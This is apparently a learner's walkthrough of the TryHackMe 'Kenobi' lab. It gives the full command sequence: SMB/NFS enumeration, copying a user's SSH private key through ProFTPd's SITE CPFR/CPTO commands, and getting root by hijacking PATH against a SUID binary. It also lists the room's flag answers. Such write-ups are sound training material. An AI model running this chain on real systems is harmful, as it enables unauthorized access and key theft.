

# TryHackMe
  https://tryhackme.com/room/kenobi
  

    
    
# Task 1 Deploy the Vulnerable Machine
  Connected to Kali and setup vpn in teminal
  
  ```sudo openvpn /home/kali/Downloads/computershane\(1\).ovpn```
  
  Attack box IP-```10.10.152.93```
  
  Host IP-```10.2.70.52```
  
  ran nmap
  
  ```nmap -A -T4 10.10.152.93```
  
  Scan the machine with nmap, how many ports are open?
  
  Answer-```7```
  
# Task 2   Enumerating Samba for shares

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!

```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.152.93```

Using the nmap command above, how many shares have been found?

Answer-```3```

Next I connected to the share

```smbclient //10.10.152.93/anonymous```

Once you're connected, list the files on the share. What is the file can you see?

I ran dir to list the contents of the share

```dir```

Answer- ```log.txt```

Recursively downloaded share by 

```smbget -R smb://10.10.152.93/anonymous```

What port is FTP running on?

Answer-```21```

using nmap to enumerate this

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.152.93```

What mount can we see?

Answer-```/var```

# Task 3 Gain initial access with ProFtpd

  using nc to connect to the machine on port 21

  ```nc 10.10.152.93 21```

  What is the version?

  Answer-```1.3.5```

  Using Searchsploit to find particular software version exploits

  How many exploits are there for the ProFTPd running?

  Answer-```3```

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. This is done as we have access to /var.

```SITE CPFR /home/kenobi/.ssh/id_rsa```

```SITE CPTO /var/tmp/id_rsa```

Lets mount the /var/tmp directory to our machine

```mkdir /mnt/kenobiNFS```

```mount 10.10.152.93:/var /mnt/kenobiNFS  ```

```ls -la /mnt/kenobiNFS```

With the network mount on our machine, we can then go to /var/tmp to retrieve the private key

```cp /mnt/kenobiNFS/tmp/id_rsa . ```

next we need t set permissions for rw and execute,

```sudo chmod 600 id_rsa```

```ssh kenobi@10.10.152.93 -i id_rsa```

What is Kenobi's user flag (/home/kenobi/user.txt)?

Answer-```d0b0f3f53b6caa532a83915e19224899```

# Task 4 Privilege Escalation with Path Variable Manipulation

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```

What file looks particularly out of the ordinary? 

Answer-```/usr/bin/menu```

Run the binary, how many options appear?

Answer-```3```

next using string command to read strings in the binary

```curl -I localhost```

```uname -r```

```ifconfig```

```echo /bin/sh > curl```

```chmod 777 curl```

```export PATH=/tmp:$PATH```

```/usr/bin/menu```

I entered choice ```1``` and boom had root acccess.

What is the root flag (/root/root.txt)?

```cat /root/root.txt```

Answer-```177b3cd8562289f37382721c28381f02```


